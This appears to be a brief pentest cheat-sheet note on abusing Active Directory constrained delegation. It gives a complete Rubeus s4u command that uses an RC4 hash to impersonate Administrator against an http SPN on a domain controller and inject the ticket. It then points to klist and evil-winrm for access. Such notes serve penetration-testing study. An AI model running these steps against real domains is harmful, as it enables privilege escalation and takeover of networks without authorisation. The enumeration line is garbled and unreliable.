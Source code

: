 	Desc:
		Use ptt attacks and constrained delegations by SPN that use protocols and delegating a super user

	Usage:
	
		Enumerate who has DELEGATIONS property:
			powershell-sessionmsds-allowedtodelegateto  
		if we already compromised the service account who delegates, we can do a ptt attack.
		Hash the pass to NTLM if necessary
		Start with Rubeus ptt and s4u attack to generate a in memory  privlege escalated user delegation example:
			.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
			list the ticket with klist
		the example is requesting for http service on DC1 with a privileged user
		winrm uses http, therefore evil-winrm is possible
`
